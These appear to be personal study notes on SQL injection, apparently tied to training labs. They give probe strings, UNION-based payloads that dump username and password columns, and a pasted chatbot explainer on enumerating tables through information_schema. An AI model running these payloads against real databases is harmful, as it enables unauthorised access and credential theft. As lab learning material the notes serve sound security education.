 In short if user input is not sanitized before interacting with a database (postgresql).
User could inject a sql command to interact with said database.

Some basic tests:
	1
	1'
	1"
	[1]
	1`
	1\
	1/*'*/
	1/*!1111'*/
	1'||'asd'||'
	1' or '1'='1
	1 or 1=1
	'or''='


Some types of injections are blind, in a way if the server doesn't directly relays data to you.
You could be interacting with the db blindly hence the name blind sql injections.

For blind sql injections there are couple types of attacks:
	Boolean attacks (true or false)
	Time based attacks (sleep())

To be able to perform blind sql injections you will need very good knowledge of sql.
Lots of time and ability to script and automate will come in very handy.
Example tool sqlmap.

For example, let's say this is how the website retrieves blog posts.
`https://website.thm/blog?id=1`  
  
From the URL above, you can see that the blog entry selected comes from the id parameter in the query string. The web application needs to retrieve the article from the database and may use an SQL statement that looks something like the following:

```sql
SELECT * FROM blog WHERE ID=1;-- AND private=0 LIMIT 1;
```

So knowing how the sql statement looks behind the scenes.
We can try modifying the url with a sql injection to try and end the statement earlier.

Thus attempting to retrieve blogs who are private as well, (private=0 is bypassed).
Ending of a sql statement is done via ; semicolon and comments are written with -- double dash.

```sql
SELECT * FROM blog WHERE ID=1;-- AND private=0 LIMIT 1;
```

This will ignore the logic of matching blogs where private is = 0 and fetching those blogs to us regardless.

https://website.thm/blog?id=1;--

## In-Band sql injections

## Error Based sql injections

Is a type that relies on errors being returned so that we can formulate a sql injection that will return the data to the webpage.
For the first attempt it is a good idea to start with a single/double quotation mark to cause an error to show up.
## Union Based sql injections

Is a type that uses UNION alongside SELECT operators to extract large amounts of data.
(union - from multiple databases)

The methodology of these error based sql injections with union and else is:
(scenario login form)

Form an injection that will not cause an error, allowing you to further expand and enumerate.

Next step is to establish the number of cols in the current table in this example it will be users table.
We find out somehow that user admin123 exists and we append union to it.

```sql
admin123' UNION SELECT 1;--
-- or
admin123' ORDER BY 1--
-- or
admin123' UNION SELECT NULL--
```

And we keep adding 1,2,3 to select statement until we get a true (boolean) response confirming the validity of our sql query.

**LAB** - find number of cols in the table.
**Solution** - `/filter?category=Accessories' UNION SELECT NULL,NULL,NULL--` 

*SQL cheatsheet*
https://portswigger.net/web-security/sql-injection/cheat-sheet
Because every database language is slightly different and has it's requirements for syntax here is the cheat-sheet to help.

#### Finding columns with useful data types

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
By this enumeration, pay attention to errors or if data is returned or not to validate if a given column contains data of type string ('a').
This is a scenario where we concluded that the table has 4 columns, and payloads length is adjusted accordingly.

**LAB** - dump login creds, there is a table `users` and it contains cols `username & password`.
**Solution** - `/filter?category=Gifts' UNION SELECT username,password FROM users--`

*Tip:* Concatenate multiple values in a single column.
```sql
' UNION SELECT username || '~' || password FROM users--
```

**LAB** - dump login creds, multiple values in a single column.
**Solution** - `/filter?category=Pets' UNION SELECT NULL,username || '~' || password FROM users--`
We first needed to enumerate the columns data types, we found 2 cols and second one is a string.
And we use that string col to exfiltrate username and password from users table by concatenating the two and exfiltrating it via selected string.


Now we can start enumeration process.
Utilizing database() function, like operator, and '%' which is just a wildcard such as * is in shell.

Knowing that we can discover database name:
```sql
`admin123' UNION SELECT 1,2,3 where database() like 'a%';--`
```

Starting with 'a%' which will match anything for the wildcard but starting with 'a'.
Now you see the idea of the discovery of the db name.

Eventually we discover the db name is sqli_three, now use that information to enumerate table names using a similar method by utilising the information_schema database.

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

So each database contains a table, we know that the db name is sqli_three and we are enumerating for a table_name the same way like we did for db name using '%'.
INFO: information_schema is the database where **the information about all the other databases is kept**

To clear out any confusion, here is an explainer in detail:

### Explainer
You're right about the general idea: SQL injection with `information_schema` allows us to explore the database structure rather than just querying data directly. Let’s break down this specific injection to clarify each part.

### Key Components of the Injection

Here's the injection you're analyzing:

sql

Copy code

`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`

Each part of this query serves a specific purpose. Let's dissect it:

1. **`admin123'`**:
    
    - This is often used to terminate an existing SQL query that the application sends, closing out a predefined condition.
    - Here, it's likely terminating a condition like `WHERE username = 'admin123'` so that your injected `UNION` statement can follow it.
2. **`UNION SELECT 1,2,3`**:
    
    - The `UNION` statement allows you to add an additional result set to the original query's results.
    - The values `1,2,3` are placeholders that match the number of columns in the original query.
    - This part essentially combines the original query's output with your injected query, allowing the database to display the results from both.
3. **`FROM information_schema.tables`**:
    
    - `information_schema` is a special database in most relational database systems, containing metadata about the database itself.
    - Here, you're querying `tables`, a system table listing all tables within all databases.
    - This lets you explore the structure of the database without needing to know its exact details in advance.
4. **`WHERE table_schema = 'sqli_three'`**:
    
    - `table_schema` is a column in `information_schema.tables` that indicates the database a table belongs to.
    - Here, it filters results to only display tables within the `sqli_three` database. (The database name `sqli_three` could be identified through other injections or prior knowledge.)
5. **`AND table_name LIKE 'a%'`**:
    
    - This clause further filters the tables, selecting only those with names that start with the letter 'a'.
    - `LIKE` is a pattern-matching operator; `'a%'` specifies that the table name should begin with 'a' (the `%` is a wildcard, matching any number of following characters).
    - This is useful for selectively discovering tables when you don’t know all the names but have a guess at a pattern.
6. **`--`**:
    
    - This is a SQL comment symbol, used to ignore the rest of the original query that follows your injection.
    - It ensures that anything the application appends to complete the original SQL statement is treated as a comment and doesn’t interfere with your injected query.

### Purpose of This Injection

In summary, this injection is trying to:

1. Terminate the original query and introduce a `UNION SELECT` statement to append data from a separate query.
2. Use `information_schema.tables` to list tables in the `sqli_three` database that have names starting with 'a'.
3. Mask the remainder of the original query with `--`, so the injection completes successfully without syntax errors.

### Why Use `information_schema`?

The purpose of querying `information_schema` is to gather information on the database structure:

- It lets you enumerate tables and columns without prior knowledge.
- Once you know table names and their columns, you can refine injections to retrieve or manipulate specific data from those tables.

In a typical SQL injection exploit, after discovering table names, you'd then query `information_schema.columns` to list out the columns in each table. This helps you understand what data each table holds and enables more targeted queries in subsequent injections.